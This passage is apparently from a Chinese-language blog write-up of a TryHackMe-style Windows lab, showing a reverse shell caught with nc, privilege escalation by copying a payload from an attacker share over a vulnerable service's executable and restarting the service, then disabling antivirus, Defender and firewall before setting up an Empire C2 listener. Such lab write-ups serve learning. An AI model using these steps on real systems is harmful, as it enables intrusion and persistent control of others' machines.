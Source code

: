 攻击机开启nc监听，目标执行rs-hackerM.exe

![在这里插入图片描述](https://img-blog.csdnimg.cn/e848e8436e1146558c202b868eebdee4.png)

可以get到shell

将文件复制到刚刚存在漏洞的地方

	C:\Program Files (x86)\System Explorer>copy \\10.50.91.179\hack\RShell.exe .\System.exe

为了节省时间，重启服务：

	sc stop SystemExplorerHelpService
	sc start SystemExplorerHelpService

![在这里插入图片描述](https://img-blog.csdnimg.cn/fe080d6a89d341a7b4eec1af803d2ee5.png)

getshell，system

[这里](https://blog.csdn.net/wxg189392381/article/details/82256007)包含关于使用C#创建Windows service内容的一篇文章

---

### C2登场 - Empire

这不是tryhackme的内容，但我想尝试C2上线，让我们开始吧

我们利用system shell建个用户

在150机器登录100的rdp

![在这里插入图片描述](https://img-blog.csdnimg.cn/45f5cc8590a34a59a8869a1118ab1245.png)

这里连接有点慢，需要等一会

![在这里插入图片描述](https://img-blog.csdnimg.cn/41cd9da68eda4572aeb2c131e105c5e4.png)

进来要做的事情很简单，把杀软给他关了

把防火墙关了

看了一下Win Defender，把实时关了

![在这里插入图片描述](https://img-blog.csdnimg.cn/0e47b41eabd54eefb9f80c450069cf64.png)


为windows防火墙添加入站和出战规则，允许所有程序、端口、协议通过

![在这里插入图片描述](https://img-blog.csdnimg.cn/15979220606f4dd08bf04539366ffb8e.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/4e1571a5dc614389ba2c4104849768a1.png)

我这里终端太多了，就用StarKiller

创建监听器：

![在这里插入图片描述](https://img-blog.csdnimg.cn/a42fa2332786403f9da9d5706ddf5066.png)
